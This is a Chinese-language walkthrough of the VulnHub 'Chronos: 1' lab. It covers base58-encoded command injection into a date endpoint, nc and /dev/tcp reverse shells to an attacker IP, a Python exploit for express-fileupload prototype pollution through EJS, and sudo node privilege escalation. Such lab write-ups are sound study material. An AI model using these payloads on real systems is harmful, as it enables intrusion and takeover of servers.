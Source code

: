 靶机地址：[Chronos: 1 ~ VulnHub](https://www.vulnhub.com/entry/chronos-1,735/)
主机发现
```Shell
sudo arp-scan -l
# 发现 192.168.1.29
sudo netdiscover -r 192.168.1.1/24
```
端口扫描
```Shell
sudo nmap -p- 192.168.1.29
# 22 80 8000
```
服务枚举
```Shell
sudo nmap -p22,80,8000 -sV 192.168.1.29
# 22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
# 80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
# 8000/tcp open  http    Node.js Express framework
```
访问80端口的web服务，没有什么特别的。
尝试查看前端源代码，是经过编码、混淆的，直接看看不懂，需要用到 [CyberChef](https://gchq.github.io/CyberChef/) 解密。
```
# 将原始字符串复制到Input框中
# Operations中搜索需要的模块
# 搜索JavaScript Beautify 将其拖动到Recipe中
```
发现如下字符串
```
http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL
```
还记得之前端口扫描的时候，目标靶机也开放了8000端口
使用BurpSuite，拦截访问请求，将响应中的 `chronos.local` 替换成 `192.168.1.29` 。可以看到页面发生变化。
还要将 `^User-Agent.*$` 替换成 `User-Agent: Chronos`
重新观察这个请求，Send to Repeater
修改format参数的值发现无法请求成功
对 `4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL` 进行解码，放到 [CyberChef](https://gchq.github.io/CyberChef/) 中，使用Magic模块，成功破解，使用了base58编码，解码后内容如下
```
'+Today is %A, %B %d, %Y %H:%M:%S.'
```
再参考响应的内容
```
Today is Thursday, November 24, 2022 07:20:54. 
```
这与命令
```Shell
date '+Today is %A, %B %d, %Y %H:%M:%S.'
```
的输出结果一致
考虑尝试命令注入
先对 `; id` 进行base58编码，选择 `To Base58` 模块，编码后的结果作为format参数发送请求，响应结果为Something went wrong。
再尝试对 `&&ls` 进行编码，再次请求，发现请求成功了，说明可以进行代码注入，这里说明要多尝试，一次失败不能代表什么。
查看靶机上有哪些工具可以使用，对如下字符串进行编码，作为参数
```
; ls /bin/
```
发现有 `nc` ，但是不知道其版本是否可以使用-e参数。
```
; nc 192.168.1.26 4444 -e /bin/sh
```
失败了，说明不支持-e参数
使用 `nc` 串联
```
; nc 192.168.1.26 4444 | /bin/bash | nc 192.168.1.26 5555
```
或
```
; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.26 4444 > /tmp/f
```
虽然页面的提示还是失败，但是成功获取到了shell
搜集敏感信息
```Shell
cat /etc/passwd | grep /bin/bash
```
发现两个用户： `root` 和 `imera`
查看 `imera` 的主目录下的文件
```Shell
ls -l /home/imera/
```
发现有一个 `user.txt` ，但是没有读取权限
考虑提升权限，先检查系统版本，看看有没有可以利用的内核漏洞
```Shell
uname -a
```
并没有找到合适的、可利用的漏洞
查找SUID文件
```Shell
find / -perm -u=s -type f -user root -executable ! -group root 2>/dev/null -exec ls -l {} \;
```
也没有找到可执行的SUID文件
还是要回到信息收集
查看当前目录下的 `app.js` 文件源码
```JavaScript
if (concat.includes('id') || concat.includes('whoami') || concat.includes('python') || concat.includes('nc') || concat.includes('bash') || concat.includes('php') || concat.includes('which') || concat.includes('socat')) {
	res.send("Something went wrong");
}
```
这段代码解释了，为什么之前命令注入会失败。
```JavaScript
if (agent === 'Chronos') {
	// ...
} else {
	res.send("Permission Denied");
}
```
这段代码解释了，为什么访问会出现Permission Denied。
再查看 `package.json`
```Json
{
  "dependencies": {
    "bs58": "^4.0.1",
    "cors": "^2.8.5",
    "express": "^4.17.1"
  }
}
```
继续信息收集
```Shell
pwd
# /opt/chronos
ls ..
# chronos
# chronos-v2
ls -l ../chronos-v2
# backend
# frontend
# index.html
ls -l ../chronos-v2/backend
# node_modules
# package.json
# package-lock.json
# server.js
cat ../chronos-v2/backend/package.json
cat ../chronos-v2/backend/server.js
```
`package.json`
```Json
{
  "name": "some-website",
  "version": "1.0.0",
  "description": "",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "^1.1.7-alpha.3"
  }
}
```
`server.js`
```JavaScript
const express = require('express');
const fileupload = require("express-fileupload");
const http = require('http')

const app = express();

app.use(fileupload({ parseNested: true }));

app.set('view engine', 'ejs');
app.set('views', "/opt/chronos-v2/frontend/pages");

app.get('/', (req, res) => {
   res.render('index')
});

const server = http.Server(app);
const addr = "127.0.0.1"
const port = 8080;
server.listen(port, addr, () => {
   console.log('Server listening on ' + addr + ' port ' + port);
});
```
这里的代码也解释了为什么我们没有扫描到8080这个端口：因为绑定了ip，只有本机可以访问到。
经过查找，库 `express-fileupload` 存在已知漏洞。
参考链接：[Real-world JS - 1 (p6.is)](https://blog.p6.is/Real-World-JS-1/)
参考作者的说明，现在本地创建利用的Python脚本
`EXP_express-fileupload.py`
```Python
import requests
cmd = 'bash -c "bash -i &> /dev/tcp/192.168.1.26/8888 0>&1"'
# pollute
requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName': (
    None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})
# execute command
requests.get('http://127.0.0.1:8080')
```
本地开启http服务
```Shell
python3 -m http.server 7331
```
靶机上下载漏洞利用脚本
```Shell
wget http://192.168.1.26:7331/EXP_express-fileupload.py
```
本机开启侦听端口
```Shell
ncat -nvlp 8888
```
靶机上执行脚本
```Shell
python3 EXP_express-fileupload.py
```
成功获取反弹Shell
```Shell
id
# uid=1000(imera) gid=1000(imera) groups=1000(imera),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
发现获取到的Shell是 `imera` 的，还是需要提权
获取第一个flag
```Shell
cd
cat user.txt
# byBjaHJvbm9zIHBlcm5hZWkgZmlsZSBtb3UK
```
尝试sudo提权
```Shell
sudo -l
#    (ALL) NOPASSWD: /usr/local/bin/npm *
#    (ALL) NOPASSWD: /usr/local/bin/node *
```
发现可以不需要密码执行 `node`
```Shell
sudo node -e 'child_process.spawn("/bin/bash",{stdio:[0,1,2]})'
```
提权成功
获取第二个flag
```Shell
cat /root/root.txt
# YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK
```
两个flag内容通过CyberChef网站解密，再通过Google翻译内容如下：

时间飞逝我的朋友。
今晚我们在沉默中收集梦想。